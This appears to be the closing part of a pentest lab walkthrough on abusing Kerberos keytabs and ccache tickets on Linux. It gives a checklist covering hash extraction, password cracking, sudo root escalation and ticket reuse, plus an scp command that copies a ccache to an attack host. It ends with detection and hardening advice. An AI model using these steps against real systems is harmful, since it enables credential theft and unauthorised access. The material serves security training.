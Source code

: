 ### Success Validation
```bash
# Verify each step works
1. SSH connections successful
2. realm list shows permitted groups  
3. find command locates carlos.keytab
4. KeyTabExtract produces correct hashes
5. Hash cracking yields valid passwords
6. sudo privileges allow root escalation
7. ccache import enables SMB access
8. Computer account accesses computer share
```

### Optional Exercises

#### Proxychains + Evil-WinRM Setup
```bash
# Transfer ccache to attack host
scp -P 2222 /tmp/krb5cc_647401106_XXXXXX user@attack_host:/tmp/

# Setup chisel tunnel and proxychains
# Use evil-winrm with Kerberos to connect to DC01
```

#### Cross-Platform Ticket Conversion
```bash
# Export from Windows with Mimikatz/Rubeus
# Convert kirbi to ccache with impacket-ticketConverter
# Use from Linux for C$ drive access
```

---

## 🛡️ Detection and Defense

### Detection Indicators
```bash
# Monitor for suspicious activities
- Unusual kinit usage patterns
- Multiple ccache file access by same user
- Keytab file creation/modification
- Cross-platform authentication patterns
- Kerberos tickets used outside normal hours
```

### Defensive Measures
```bash
# System hardening
✅ Restrict keytab file permissions (600 or 640)
✅ Monitor /tmp directory for ccache abuse
✅ Implement proper sudo policies
✅ Regular rotation of service account passwords
✅ Audit crontab entries for keytab usage

# Monitoring
✅ Log kinit/klist command usage
✅ Monitor Kerberos authentication patterns
✅ Track unusual SSH connections
✅ Alert on root privilege escalations
```

---